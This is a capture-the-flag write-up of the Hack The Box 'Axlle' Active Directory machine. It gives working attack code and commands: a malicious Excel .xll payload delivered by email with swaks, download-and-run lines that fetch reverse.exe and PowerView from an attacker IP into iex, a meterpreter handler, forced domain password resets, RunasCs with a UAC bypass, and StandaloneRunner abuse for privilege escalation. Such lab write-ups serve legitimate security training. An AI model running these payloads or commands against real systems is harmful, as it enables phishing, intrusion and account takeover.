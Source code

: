 ```yaml
---
title: axlle
published: 2024-10-09
description: 'Axlle HTB hard machine writeup'
tags: [HTB, AD, Machines]
category: 'Machines'
image: ../../assets/axlle/Axlle.png
draft: false 
lang: 'en'
---
```



As the machine's name hinted, this is about xll files, which are like DLL files but for excel and we gonna use this extension to execute code on the victim machine once he opens it

# 1) write .xll file and upload it using swax

us the c code from https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec to generate an malicious .xll file

```c
#include <Windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

compile it with the following command:
```bash
x86_64-w64-mingw32-gcc snippet.c 2013_Office_System_Developer_Resources/Excel2013XLLSDK/LIB/x64/XLCALL32.LIB -o importantdoc.xll -s -Os -DUNICODE -shared -I 2013_Office_System_Developer_Resources/Excel2013XLLSDK/INCLUDE/
```

here of course you will need to install `x86_64-w64-mingw32-gcc ` and download the Excel SDK


then lets send this malicious file to the victim in an email using swaks
```bash
swaks \          
        --from accounts@axlle.htb \
        --to accounts@axlle.htb \
        --server axlle.htb \
        --port 25 \
        --header 'Subject: Test email' \
        --body "This email contains an attachment." \
        --attach '@importantdoc.xll'
```


# 2) write the revershell.exe and .link on the smb folder to get shell

```powershell
wget http://10.10.14.135:3030/reverse.exe -o reverse.exe
```

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set lport 4444; exploit"
```


```powershell
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\inetpub\testing\scam.url")
$link.targetpath = "C:\inetpub\testing\reverse.exe"
$link.save()
```

# 3) forceChangePassword

now we have reverse shell as `dallon.matrix` and have right to change `baz.humphries` and `jacob.greeny` passwords

![](src/assets/axlle/Axlle_image_1.png)

get the powerview first

```powershell
(New-Object System.Net.WebClient).DownloadString("http://10.10.14.135:3030/powerview.ps1") | iex
```


```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

```powershell
Set-DomainUserPassword -Identity baz.humphries -AccountPassword $UserPassword
Set-DomainUserPassword -Identity jacob.greeny -AccountPassword $UserPassword
```

now both those accounts have  `Password123!` as password


#### to get a reverse shell as one of those users

```powershell
./RunasCs.exe "baz.humphries" "Password123!" powershell -r 10.10.14.135:2222 --bypass-uac --logon-type '8'
```

# after we have the baz.humphries we need to exploit the standalone vulnerability

in the `c:\App developement\kbfiltr\README.md` it says that the `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` is executed regularly by the SYSTEM user

and looking at the `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\` we see that we (`APP DEV`) group have write access on the `x64`directory 
```powershell
PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal> icacls x64
x64 AXLLE\App Devs:(OI)(CI)(RX,W)
    Everyone:(I)(OI)(CI)(R)
	....
	APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

googling about the `standalonerunner.exe` we find that this is a LOLbin and we can exploit it if we have write access on the running directory of that exe

https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md#putting-everything-together

on our machine:
```bash
nc -nlvp 6666
```

on the target host:

download our needed files in the `c:\inetpub\testing` as the user `dallon.matrix` 
```bash
wget http://10.10.14.135:3030/command.txt -o command.txt
wget http://10.10.14.135:3030/reboot.rsf -o reboot.rsf
```


```powershell
cp c:\inetpub\testing\reboot.rsf reboot.rsf;

mkdir myTestDir;cd myTestDir;mkdir working;cd ../ 
new-item rsf.rsf -type file; mv rsf.rsf myTestDir\working

cp c:\inetpub\testing\command.txt command.txt
```

and then get the flag

# GG
